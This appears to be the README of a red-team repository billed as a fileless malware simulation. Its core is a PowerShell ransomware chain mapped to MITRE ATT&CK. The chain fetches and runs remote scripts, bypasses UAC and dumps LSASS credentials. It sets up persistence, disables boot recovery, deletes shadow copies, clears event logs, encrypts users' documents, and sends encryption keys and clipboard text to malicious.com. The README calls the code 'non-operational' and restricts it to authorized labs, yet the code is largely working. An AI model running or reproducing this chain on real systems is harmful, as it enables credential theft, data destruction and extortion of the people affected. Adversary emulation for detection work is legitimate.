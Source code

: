 
<div align="center">

# 🧠 **100% Fileless Malware Simulation**
> High-fidelity adversary emulation using in-memory execution and LOLBins

![License](https://img.shields.io/badge/license-MIT-black?style=flat-square)
![Status](https://img.shields.io/badge/build-simulation-lightgrey?style=flat-square)
![Scope](https://img.shields.io/badge/type-red_team-blue?style=flat-square)
![MITRE ATT&CK](https://img.shields.io/badge/framework-MITRE_ATT%26CK-red?style=flat-square)

</div>

---

## ❓ What Is Fileless Malware?

Fileless malware:
- Executes **entirely in RAM**
- Uses native OS tools like `PowerShell`, `rundll32`, and `WMIC`
- Reflectively injects into trusted processes
- Launches via macros, registry scripts, or LOLBins

🔒 **No files are written to disk**, making it hard to detect via signature-based AV.

---

## ✅ Is “100% Fileless” Achievable?

✔️ **Yes — in theory.**  
Chains can involve:
- Macro-based phishing
- [Reflective DLL Injection](https://attack.mitre.org/techniques/T1055/001/)
- Native binary abuse (LOLBins)
- No persistent files

⚠️ **In practice**:
- Temporary files or registry keys are often used
- Payloads live in memory
- Disk-based stubs may exist briefly

---

## 🔍 Why It Matters

- 🛡️ AV = file scanning → fails on memory-only payloads  
- 🧬 Fileless = increased stealth, dwell time, and forensic resistance  
- 🎯 Detection needs: EDRs, memory introspection, or behavioral analytics

---

## ⚠️ Legal & Ethical Use Only

This repository is for:
- Emulating **fileless threat behavior**
- Chaining [LOLBins](https://lolbas-project.github.io/)
- Simulating red/purple team adversarial tradecraft
- Safe adversary emulation in **isolated** environments

> 🔐 Use in **authorized labs only**

## 🔗 MITRE ATT&CK-Aligned PowerShell Simulation

> ⚠️ This is a **non-operational** emulation for training and detection tuning.

    <details>
    <summary>💥 Simulated Fileless Ransomware Chain</summary>
    # 🎯 [T1190] – Initial Access (Phishing or Remote Exploit)
    $u = "http://malicious.com/a.ps1"
    try { IEX (New-Object Net.WebClient).DownloadString($u) } catch {}
    
    # 🪞 [T1055.012] – Reflective DLL Injection (In-Memory Execution)
    $encoded = "[Base64ReflectiveDLL]"
    $bytes = [Convert]::FromBase64String($encoded)
    $hMem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($bytes.Length)
    [System.Runtime.InteropServices.Marshal]::Copy($bytes, 0, $hMem, $bytes.Length)
    $entry = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($hMem, [Action])
    $entry.Invoke()
    
    # 🧠 [T1059.001] – PowerShell Command & Control
    $stage2 = "IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/next.ps1')"
    Invoke-Expression ([System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($stage2)))))
    
    # 🔐 [T1548.002] – UAC Bypass via COM Interface
    (New-Object -ComObject Shell.Application).ShellExecute("powershell", "-nop -w hidden -c `"IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/elevate.ps1')`"", "", "runas", 1)
    
    # 🧪 [T1003.001] – Credential Dumping (LSASS via comsvcs.dll)
    $lsass = (Get-Process lsass).Id
    rundll32 comsvcs.dll, MiniDump $lsass lsass.dmp full
    
    # 🔍 [T1016] – Network Discovery
    ipconfig /all | Out-Null
    Get-WmiObject Win32_NetworkAdapterConfiguration | Where-Object { $_.IPEnabled } | Select IPAddress, MACAddress
    
    # 🗂️ [T1112] – Registry Modification (Auto-Execution Persistence)
    $eCmd = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("powershell -nop -w hidden -EncodedCommand [encoded payload]"))
    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "UpdateSvc" -Value "powershell.exe -EncodedCommand $eCmd" -Force
    
    # 🧫 [T1485] – Data Destruction / Boot Recovery Tampering
    Remove-Item "$env:TEMP\*" -Recurse -Force -ErrorAction SilentlyContinue
    bcdedit /set {default} recoveryenabled no
    bcdedit /set {default} bootstatuspolicy ignoreallfailures
    
    # 💣 [T1486] – Ransomware File Encryption (In-Memory Key Staging)
    $targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.xlsx,*.txt -Recurse -ErrorAction SilentlyContinue
    foreach ($file in $targetFiles) {
        $key = -join ((0..255) | Get-Random -Count 32 | ForEach-Object { [char]$_ })
        $aes = [System.Security.Cryptography.Aes]::Create()
        $aes.Key = [Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
        $aes.IV = New-Object Byte[] 16
        $enc = $aes.CreateEncryptor()
        $plain = [IO.File]::ReadAllBytes($file.FullName)
        $crypt = $enc.TransformFinalBlock($plain, 0, $plain.Length)
        [IO.File]::WriteAllBytes($file.FullName, $crypt)
        "$($file.FullName):$key" | Out-File "$env:APPDATA\tempkeys.log" -Append
    }
    
    # 📤 [T1041] – Exfiltration of Encryption Keys (via POST)
    try {
        $keyDump = Get-Content "$env:APPDATA\tempkeys.log" -ErrorAction SilentlyContinue
        $encoded = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($keyDump))
        Invoke-RestMethod -Uri "http://malicious.com/xkeys" -Method POST -Body $encoded
    } catch {}
    
    # 🔧 [T1070.004] – Artifact Cleanup
    Remove-Item "$env:APPDATA\tempkeys.log" -Force -ErrorAction SilentlyContinue
    Remove-Item "$env:TEMP\drop.ps1" -Force -ErrorAction SilentlyContinue
    wevtutil cl Security; wevtutil cl System; wevtutil cl Application
    
    # 📌 [T1053.005] – Scheduled Task Persistence
    schtasks /create /tn "SysSync" /tr "powershell -w hidden -ExecutionPolicy Bypass -File $env:APPDATA\run.ps1" /sc onlogon /rl highest
    
    # 📋 [T1115] – Clipboard Data Collection
    Add-Type -AssemblyName PresentationCore
    $text = [Windows.Clipboard]::GetText()
    Invoke-RestMethod -Uri "http://malicious.com/cliplog" -Method POST -Body ([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($text)))
    
    # 💾 [T1070.001] – Shadow Copy Deletion
    Start-Process "vssadmin" -ArgumentList "delete shadows /all /quiet" -WindowStyle Hidden -Wait
    Start-Process "wmic" -ArgumentList "shadowcopy delete" -WindowStyle Hidden -Wait
    
    # ⌛ [T1497.003] – VM/Sandbox Detection & Kill
    $vmCheck = (Get-WmiObject -Class Win32_ComputerSystem).Manufacturer
    if ($vmCheck -match "VirtualBox|VMware|Xen|QEMU") { Stop-Computer -Force }
    
    
    
    </details>

---

## 🧩 LOLBins (Living Off the Land Binaries)

| Binary            | Function                            | Techniques                                          |
|------------------|-------------------------------------|-----------------------------------------------------|
| `rundll32.exe`   | Reflective DLL execution             | [T1218.011](https://attack.mitre.org/techniques/T1218/011/), [T1055.001](https://attack.mitre.org/techniques/T1055/001/) |
| `mshta.exe`      | HTA script execution                 | [T1218.005](https://attack.mitre.org/techniques/T1218/005/) |
| `regsvr32.exe`   | COM script loading                   | [T1218.010](https://attack.mitre.org/techniques/T1218/010/) |
| `wmic.exe`       | Remote execution, WMI abuse          | [T1047](https://attack.mitre.org/techniques/T1047/), [T1021.001](https://attack.mitre.org/techniques/T1021/001/) |
| `certutil.exe`   | Download/decode payloads             | [T1105](https://attack.mitre.org/techniques/T1105/), [T1140](https://attack.mitre.org/techniques/T1140/) |
| `msbuild.exe`    | Compile/execute C# payloads          | [T1127.001](https://attack.mitre.org/techniques/T1127/001/), [T1059.005](https://attack.mitre.org/techniques/T1059/005/) |
| `bitsadmin.exe`  | Background file transfer             | [T1105](https://attack.mitre.org/techniques/T1105/) |
| `schtasks.exe`   | Persistence via task scheduling      | [T1053.005](https://attack.mitre.org/techniques/T1053/005/) |

---

## 📚 Resources

- 🔗 [LOLBAS Project](https://lolbas-project.github.io/)
- 🔗 [MITRE ATT&CK – T1218](https://attack.mitre.org/techniques/T1218/)
- 🔗 [DLL Injection Techniques](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- 🔗 [LOLGEN Chain Generator](https://lolgen.hdks.org/)
- 🔗 [LOLOL Farm Sandbox](https://lolol.farm/)
- 🔗 [PrintNightmare Exploit Analysis](https://itm4n.github.io/printnightmare-not-over/)
- 🔗 [Wikipedia – Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)
